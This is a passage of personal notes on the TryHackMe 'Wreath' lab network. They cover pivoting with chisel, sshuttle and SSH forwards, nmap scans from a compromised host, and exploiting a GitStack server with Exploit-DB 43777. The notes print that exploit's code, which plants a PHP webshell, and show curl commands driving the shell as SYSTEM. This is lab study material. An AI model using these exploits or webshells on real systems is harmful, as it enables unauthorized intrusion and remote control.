- Forward 172.16.0.100:3306 to your own port 33060 
- Using a chisel remote port forward 
- Your IP 172.16.0.200, listening port is 1337
- Background this process

`./chisel client 172.16.0.200:1337 33060:172.16.0.100:3306 &`

- Chisel server running on 172.16.0.5:4444
- Create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?

`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80` 

</details>

## 11. Pivoting - sshuttle

<details>
  <summary>---</summary>

- Uses SSH connection to create tunnelled proxy that acts like a new interface.
- Simulates a VPN
- Route traffice through proxy without using proxychains
- Encrypted connection
- Sits in the background and forward relevant traffic to target network

However
- Only works on Linux targets
- Requires access to compromised server via SSH
- Requires Python

1. Install sshuttle

`sshuttle -r username@address subnet`

2. Run sshuttle

eg: `sshuttle -r user@172.16.0.5 172.16.0.0/24`

We can avoid specifying subnet with `-N`. Not always successful.

`sshuttle -r username@address -N`

We also need to append `&`

Then enter username and password

Successful response:

`c: Connected to server.`

3. Run sshuttle with key based auth

Use `--ssh-cmd` switch followed by `ssh -i keyfile`

`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

eg. `sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24`

> Note: error may occur if it is part of subnet you are trying to access

```
client: Connected.
client_loop: send disconnect: Broken pipe
client: fatal: server died with error code 255
```

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24
c : Connected to server.
client_loop: send disconnect: Broken pipe
c : fatal: ssh connection to server (pid 38010) exited with returncode 255
```

ie. connecting to `172.16.0.5` and forward `172.16.0.0/24`. Including compromised server inside the newly forwarded subnet

We can get around this with `-x` to create connection without disrupting itself

eg. `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

</details>

## 12. Pivoting - Conclusion

<details>
  <summary>---</summary>

- There are many ways to pivot through a network
- Proxychains and FoxyProxy are used to access a proxy
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows. Can create reverse SSH connections
- Socat can redirect connection and create port forwards
- Chisel can do the same thing as SSH port forwarding / tunnelling. Does not require SSH on the box
- sshuttle is nicer to create proxy when we have SSH access on target

</details>

## 13. Git Server- Enumeration

<details>
  <summary>---</summary>


Ping scan - `100` and `150` up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

Scanning 100 returns filtered
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning 150 returns a result
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

Scanning first 15000 port
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

</details>

## 14. Git Server - Pivoting

<details>
  <summary>---</summary>

Port 80 is interesting in 10.200.81.150.
We use sshuttle to ssh tunnel to 150 through 200 from the attacking machine

### ssh tunnel

Attacking box - this runs in the background with `-fN`
```
kali@kali:~/thm/wreath$ ssh -i ssh/webserver_id_rsa -L 8000:10.200.81.150:80 root@10.200.81.200 -fN
```

We navigate to `localhost:8000` and see an error page that tells us various accessible routes eg. `/gitstack`

![error page](gitPivot.png)

We navigate to `localhost:8000/gitstack` and see a log in page - default creds do not work

![gitstack](gitstack.png)

### sshuttle

TODO

Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

</details>

## 15. Git Server - Code (exploit) Review

<details>
  <summary>---</summary>

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Exploit copied might have DOS line endings. We can use a tool to convert this if this is the case
```
dos2unix ./43777.py
```
or
```
sed -i 's/\r//' ./EDBID.py
```

Check what version python this would run on with `print` statements (`print()` for python3 and `print ""` for python2)

1. Add shebang `#!/usr/bin/python2` so we can run `./43777.py`; or 
2. Run with python2 `python2 43777.py` without adding shebang to the file

Change the ip address to `localhost:8000` (ssh port forward method)

Change the ip address to target IP eg `10.200.85.150` (sshuttle method)

```python
ip = 'localhost:8000'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'
```

The command `whoami` will be run on execution

Last six lines of the exploit:
```python
print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `exploit.php` under webroot.

This can be accessed by posting a command to `/web/exploit.php`

</details>

## 16. Git Server - Exploitation

<details>
  <summary>---</summary>

> Note: For port forwarding method we use target: `localhost:8000`
> 
> Note: For sshuttle method we use target: `gitserver.thm`

### sshuttle method

First add `gitserver.thm` to `/etc/hosts`

```
kali@kali:~/thm/wreath$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.200.85.200   thomaswreath.thm
10.200.85.150   gitserver.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Start a sshuttle connection
```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

Run `43777.py` exploit with ip value of `10.200.85.150` - this exploit will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

Two options for reverse shell:
1. Change the command from `whoami` inside the exploit file but we need to run the exploit every time
2. Leverage same webshell to execute more commands without performing exploit twice 

We choose option 2 as it is quieter 

Webshell uploaded responds to POST request with param `a`. So we can do a curl - `curl -X POST http://IP/web/exploit.php -d "a=COMMAND"`

```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=whoami"
"nt authority\system
" 
```

Instead of curl we can also use burp proxy

1. Do a GET request to `http://gitserver.thm`
2. Intercept and send to repeater
3. Change method to a POST
4. Add `Content-Type: application/x-www-form-urlencoded`
5. Add `a=COMMAND`

![burp webshell command](burp-webshell.png)

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

OS 
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA368
Original Install Date:     08/11/2020, 13:19:49
System Boot Time:          17/04/2021, 01:06:51
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 24/08/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,381 MB
Virtual Memory: Max Size:  2,432 MB
Virtual Memory: Available: 1,876 MB
Virtual Memory: In Use:    556 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4580422
                           [02]: KB4512577
                           [03]: KB4580325
                           [04]: KB4587735
                           [05]: KB4592440
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.200.85.1
                                 IP address(es)
                                 [01]: 10.200.85.150
                                 [02]: fe80::24c6:6f4d:2503:aaa2
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
" 
```


### Port forward method

We first run a port forward

Attacking box
```
kali@kali:~/thm/wreath$ ssh -i ssh/webserver_id_rsa -L 8000:10.200.85.150:80 root@10.200.85.200 -fN
```

Modify `43777.py` file with ip of `localhost:8000`

Then we run exploit which executes `whoami` which returns `NT AUTHORITY\SYSTEM` - highest ranking local account on Windows

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

We can use curl to run commands (or burp)
```
kali@kali:~/thm/wreath$ curl -X POST http://localhost:8000/web/exploit-Neozer0.php -d "a=whoami"
"nt authority\system
" 
```


</details>
